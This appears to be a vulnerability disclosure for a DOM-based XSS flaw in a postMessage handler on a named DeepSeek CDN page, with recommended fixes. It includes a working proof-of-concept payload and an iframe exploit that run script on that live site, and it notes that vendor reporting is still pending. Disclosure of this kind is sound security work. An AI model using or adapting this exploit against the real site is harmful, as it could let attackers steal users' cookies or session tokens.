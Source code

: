 ### **DOM-Based XSS Vulnerability Disclosure: DeepSeek.com**

#### **Summary**
During routine analysis, a DOM-based Cross-Site Scripting (XSS) vulnerability was identified on DeepSeek's CDN endpoint: `https://cdn.deepseek.com/usercontent/usercontent.html`. The vulnerability stems from improper handling of `postMessage` events, allowing an attacker to inject malicious scripts into the document context without proper origin validation or input sanitization.

---

#### **Affected URL**
`https://cdn.deepseek.com/usercontent/usercontent.html`

---

#### **Vulnerability Details**
The `postMessage` implementation on the affected endpoint processes messages without verifying their origin or properly sanitizing input. The following code snippet illustrates the root cause of the issue:

```javascript
window.addEventListener("message", (e) => {
    const keys = Object.keys(e.data);
    if (keys.length !== 1) return;
    if (!e.data.__deepseekCodeBlock) return;

    document.open();
    document.write(e.data.__deepseekCodeBlock);
    document.close();

    const style = document.createElement("style");
    style.textContent = "body { margin: 0; }";
    document.head.appendChild(style);
});
```

The function directly writes any `__deepseekCodeBlock` payload into the document using `document.write`, bypassing essential security measures such as:
- **Origin Validation**: No check to ensure the `postMessage` event originates from a trusted source.
- **Input Sanitization**: No filtering or escaping of HTML/JavaScript content in the payload.

---

#### **Proof of Concept (PoC)**

##### **Payload:**
The following `postMessage` payload can exploit the vulnerability to execute arbitrary JavaScript:
```javascript
postMessage(
    { __deepseekCodeBlock: '<script>alert(origin)</script>' },
    "*"
);
```

##### **Exploit Code:**
For easier testing, an iframe-based PoC was created to demonstrate the issue:
```html
<iframe
    width="600px"
    height="600px"
    src="https://cdn.deepseek.com/usercontent/usercontent.html"
    onload="this.contentWindow.postMessage( ({ __deepseekCodeBlock: '<script>alert(origin)</script>'}) ,'*')"
>
</iframe>
```

##### **Impact:**
When this payload is executed:
1. The browser processes the malicious payload.
2. An alert box is displayed showing the `origin`, confirming the ability to inject and execute arbitrary JavaScript.

---

#### **Steps to Reproduce**
1. Open `https://cdn.deepseek.com/usercontent/usercontent.html` in your browser.
2. Open the browser console and execute:
   ```javascript
   window.postMessage(
       { __deepseekCodeBlock: '<script>alert(origin)</script>' },
       "*"
   );
   ```
3. Alternatively, save and load the provided iframe-based exploit code in a browser.

---

#### Recommendations
1. **Validate Message Origin**: Ensure that the `postMessage` event's `origin` matches `https://cdn.deepseek.com`:
   ```javascript
   window.addEventListener("message", (e) => {
       if (e.origin !== "https://cdn.deepseek.com") return;

       // Handle the message securely
       const data = e.data;

       // Example: Sanitize and insert content
       if (data && data.__deepseekCodeBlock) {
           const sanitizedContent = DOMPurify.sanitize(data.__deepseekCodeBlock);
           const codeBlock = document.createElement("pre");
           codeBlock.textContent = sanitizedContent;
           document.body.appendChild(codeBlock);
       }
   });
   ```

2. **Sanitize User Input**: Use a library like **DOMPurify** to sanitize the HTML content before inserting it into the DOM. This helps prevent XSS attacks:
   ```javascript
   const sanitizedContent = DOMPurify.sanitize(e.data.__deepseekCodeBlock);
   ```

3. **Avoid `document.write`**: Replace `document.write` with modern DOM manipulation methods:
   ```javascript
   const codeBlock = document.createElement("pre");
   codeBlock.textContent = sanitizedContent;
   document.body.appendChild(codeBlock);
   ```

---

#### **Timeline**
- **Date of Discovery**: January 31, 2025
- **Reported To DeepSeek**: [Pending]
- **Acknowledgment**: [Pending]
- **Patch Status**: [Pending]

---

#### **Impact Assessment**
This vulnerability allows attackers to execute arbitrary JavaScript in the context of `cdn.deepseek.com`. Potential impacts include:
- Theft of sensitive user data (e.g., cookies or session tokens).
- Defacement or injection of malicious content.
- Further exploitation of users accessing the compromised page.

---

#### **Contact Information**
If you have any questions or need additional details, please feel free to contact me at [your email address].  

